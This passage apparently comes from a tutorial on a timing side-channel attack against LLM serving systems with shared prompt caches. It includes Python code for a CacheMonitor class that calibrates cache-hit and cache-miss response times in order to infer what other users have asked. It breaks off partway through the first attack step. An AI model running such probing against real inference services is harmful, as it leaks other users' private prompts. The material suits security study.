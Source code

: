 ```python
                break
        
        print(f"Request {i+1}: {match_length} token match - Priority {3-i}")
        print(f"  '{request}'")
    
    print("By sending requests with different prefixes and measuring response times,")
    print("you can determine what's currently cached (i.e., what others asked)!")

lmp_scheduling_example()
```

## The Attack


### Step 1: Set Up Monitoring

**What we're doing**: Learning how to detect cache hits vs misses.

**Why**: We need to distinguish between fast (cached) and slow (uncached) responses.


```python
import time
import requests
import statistics

class CacheMonitor:
    def __init__(self, server_url):
        self.server_url = server_url
        self.baseline_times = []
        self.cache_hit_threshold = None
    
    def calibrate(self):
        """Learn what cache hits vs misses look like"""
        
        # Send requests we know will be cache misses (random strings)
        miss_times = []
        for i in range(10):
            random_prompt = f"Random uncached prompt {i} xyz123"
            response_time = self.measure_response_time(random_prompt)
            miss_times.append(response_time)
            time.sleep(0.1)  # Don't overwhelm server
        
        # Send the same request multiple times (should be cache hits after first)
        hit_times = []
        repeated_prompt = "This prompt will be cached after first request"
        for i in range(10):
            response_time = self.measure_response_time(repeated_prompt)
            if i > 0:  # Skip first request (that's the miss)
                hit_times.append(response_time)
            time.sleep(0.1)
        
        # Calculate threshold
        avg_miss_time = statistics.mean(miss_times)
        avg_hit_time = statistics.mean(hit_times)
        self.cache_hit_threshold = (avg_miss_time + avg_hit_time) / 2
        
        print(f"  Cache miss avg: {avg_miss_time:.3f}s")
        print(f"  Cache hit avg: {avg_hit_time:.3f}s") 
        print(f"  Threshold: {self.cache_hit_threshold:.3f}s")
        
        return avg_miss_time > avg_hit_time  # Sanity check
    
    def measure_response_time(self, prompt):
```